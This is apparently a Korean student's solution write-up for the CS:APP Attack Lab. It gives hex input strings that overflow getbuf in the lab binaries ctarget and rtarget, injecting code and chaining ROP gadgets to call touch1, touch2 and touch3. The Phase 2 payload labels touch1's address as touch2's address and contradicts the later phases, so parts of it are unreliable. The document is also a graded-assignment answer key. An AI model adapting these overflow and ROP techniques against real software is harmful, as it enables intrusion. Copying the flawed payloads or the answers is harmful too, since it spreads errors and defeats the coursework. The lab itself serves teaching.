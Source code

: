 # Attack_Lab  / Solution by BaeJuneHyuck , PNU CSE


## <Phase_1>
Phase1,2,3은 ctarget의 getbuf 실행 후 리턴을 통해touch1,2,3을 실행해야 한다.

제공받은 ctarget을 objdump -d 를 사용하여 역어셈블한 뒤, getbuf를 확인하면 **sub $0x28, %rsp**를 통해 스택에 40바이트를 할당함을 확인할 수 있다. 

우리의 목적인 touch1에 접근하기 위해서는 할당 받은 40바이트를 넘어 touch1의 주소를 입력하여 return address를 수정하면 된다.

touch1의 주소는 0x401915이며 Byte ordering에 따라서 15 19 40 00 00 00 00 00 을 주소로 입력해주었다. 

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40바이트 채우기 */
15 19 40 00 00 00 00 00 /* touch1의 주소 */
```
위의 내용을 exploit.txt로 생성한 뒤, cat exploit1.txt | ./hex2raw | ./ctarget 을 실행하여
Phase1을 성공적으로 수행하였다.

## <Phase_2>
Phase2에서는 getbuf이후 touch2를 실행하되 인자로 자신의 cookie값을 전달해야 한다. 

따라서, touch2의 인자를 조작하기 위하여 **mov $0x232add1b, %rdi** 가 실행되고, 그 다음 **retq** 를 통해 touch2로 Instruction Pointer가 이동해야 한다. 

gets의 입력으로 이를 위한 바이트 코드를 입력하고 리턴 어드레스를 입력 버퍼의 주소로 설정하면, 해당 코드가 실행되도록 할 수 있다. 

위의 어셈블리 코드를 phase2.s 로 생성하고, gcc -c phase2로 컴파일, objdump -d phase2.o 를 통하여 역어셈블 하면 바이트 코드 **48 c7 c7 1b dd 2a 23 / c3** 를 얻을 수 있다. 

또한, gdb를 통해 retq 실행 직전의 rsp의 값을 x/s %rsp 명령어로 확인, 그 값에서 0x28을 뺀 값이 입력 버퍼의 주소(즉, 첫번째 명령 실행을 위한 주소)이므로 리턴 어드레스를 덮어씌우기 위한 값을 얻게 된다. 

마지막으로 retq의 대상이 되는 touch2의 주소를 덧붙인다. 이들을 조합하여 작성하면 다음과 같다.

```
48 c7 c7 1b dd 2a 23 c3 /* mov $0x232add1b(쿠키값), %rdi // retq */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 나머지 40바이트 채우기 */
88 f8 61 55 00 00 00 00 /* retq 실행 시점의 rsp – 0x28(buf)주소 */
15 19 40 00 00 00 00 00 /* touch2의 주소, 리틀 엔디안 */
 ```
 
## <Phase_3>
 Phase2와 달리 쿠키를 정수 값이 아닌 문자열로 전달해 주어야한다. 
기본적인 방법은 위의 phase2와 비슷하다. 원래 함수의 리턴 주소를 입력 버퍼의 주소(rsp-0x28)로 바꿔서 첫번째 명령(movq)을 실행하도록 하였다. 이때 movq 명령에서 phase2와 달리 쿠키 string이 있는 위치, 즉 retq실행 시점의 rsp + 0x10을 rdi에 저장하고 있다. 이후 첫번째 라인의 리턴(c3)에 의해 touch3가 실행된다. 이를 나타내는 입력은 아래와 같다.

```
48 c7 c7 c0 f8 61 55 c3  /* movq 0x5561f8c0(cookie string의 주소), rdi */ 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 여기까지 40바이트 */
88 f8 61 55 00 00 00 00 /* retq 실행 시점의 rsp – 0x28(buf)주소 */
52 1a 40 00 00 00 00 00 /* touch 3 주소 */
32 33 32 61 64 64 31 62 /* cookie string */
```

## <Phase_4>
 Phase4, 5는 새로운 실행파일인 rtarget을 실행시켜 ROP를 사용, phase2, 3을 반복한다.
주어진 pdf에서는 2개의 가젯을 이용하여 이를 수행할 수 있고 pop을 이용하여 스택에서 데이터와 가젯의 주소를 사용할 수 있다고 힌트를 주고 있다. 우리가 원하는 동작은 rdi에 쿠키값을 넣고 touch2를 실행하는 것이다. 직접 쿠키의 값을 레지스터에 입력해주는 가젯은 없으니 버퍼 입력을 통해 스택에 쿠키값을 삽입, 입력 되어있는 쿠키를 pop을 사용하여 rdi에 저장해주자. 사용중인 rtarget 파일에서는 popq %rdi의 가젯이 존재하지 않아서 **popq %rax**를 통해 임시로 rax에 저장 후 **movq %rax, %rdi**를 통해 rdi에 쿠키값을 입력하였다.
 이제 각각의 가젯을 찾아야 하는데 이들의 바이트 코드는 각각 **58 / 48 89 c7** 이다. rtarget 내부의 gadget_farm에서 ‘58’을 검색하면 아래와 같은 코드를 찾을 수 있다.

```
0000000000401aef <getval_379>:
  401aef:	b8 1e 58 90 90       	mov    $0x9090581e, %eax
  401af4:	c3                   	retq
```
58 90 90 c3에서 90은 nop로써 원하는 동작을 하는데 영향을 주지 않는다.
따라서 401aef + 3 (offset)으로 popq rax를 사용할 수 있다.  같은 방법으로 movq %rax %rdi의 가젯도 찾을 수 있으며. 이를 통해 작성된 입력은 아래와 같다.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40 바이트 */
f1 1a 40 00 00 00 00 00 /* gadget 1	popq rax */
1b dd 2a 23 00 00 00 00 /* cookie */
f8 1a 40 00 00 00 00 00 /* gadget 2	movq rax rdi */
41 19 40 00 00 00 00 00	/* touch2 의 주소*/
```

## <Phase_5>	
 Phase3에서 사용한 입력들을 가젯을 사용하여 구현하여야 한다. 주어진 pdf는 공식적인 정답은 8개의 가젯을 사용한다고 말해주고 있는데 이를 통해phase_3에서 사용한 movq와 retq가 여러 가젯을 사용하여 구현될 것 임을 알 수 있다. 
먼저 rdi에 쿠키의 주소를 입력해 주어야 하는데, 역시나 이를 직접 수행할 수는 없으며, 직접 버퍼 입력으로 cookie의 string을 입력해주고 그 주소를 pop을 사용하여 레지스터에 전달해주어야 한다. rsp를 rdi에 저장한 뒤 rsp에서 cookie string까지의 거리 48을 rax에 넣으면 두 값을 더한 값이 바로 쿠키의 주소가 된다. 이를 위한 add_xy가 gadget_farm에 친절하게도 존재하는 것을 확인할 수 있고, 이후 gadget7으로 사용하였다.
 구현을 위하여 여러 가젯이 사용되였다. gadget7의 lea (rdi rsi 1), eax를 사용하기 위해서 **rsp의 값은 movq를 통해 rsp -> rax ->rdi 순으로 전달**되었으며 **쿠키 스트링까지의 거리 48은 popq를 사용하여 rax에 저장된 뒤, rax->edx->ecx->esi순으로 전달**되었다. 이 두 값을 lea를 통해 더한 뒤 eax에 저장해주었고 마지막으로 movq rax rdi를 실행하는 가젯을 통하여 쿠키의 주소를 인자(rdi)로 전달, touch3를 실행하였다. 
 특이한 점으로 5번째 가젯의 바이트코드에는 38 c0이 포함 되어있으나 해당 코드가 실행하는 명령인 cmpb는 레지스터에 영향을 주지 않으므로 원하는 기능을 수행하는데 아무 문제가 되지 않는다. 이를 모두 구현한 입력은 아래와 같다. 

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40 바이트 */
3f 1b 40 00 00 00 00 00 /* gadget1, movq rsp rax */
f8 1a 40 00 00 00 00 00 /* gadget2, movq rax rdi */
f1 1a 40 00 00 00 00 00 /* gadget3, popq rax */
48 00 00 00 00 00 00 00 /* gap between gadget1 and cookie */
39 1b 40 00 00 00 00 00 /* gadget4, movl eax edx */
8b 1b 40 00 00 00 00 00 /* gadget5, movl edx ecx */ 
a2 1b 40 00 00 00 00 00 /* gadget6, movl ecx */
2a 1b 40 00 00 00 00 00 /* gadget7, lea (rdi rsi 1) eax */
f8 1a 40 00 00 00 00 00 /* gadget8, movq rax */
52 1a 40 00 00 00 00 00 /* touch 3 주소 */
32 33 32 61 64 64 31 62 /* cookie string */
00 00 00 00 00 00 00 00 /* string end */
```
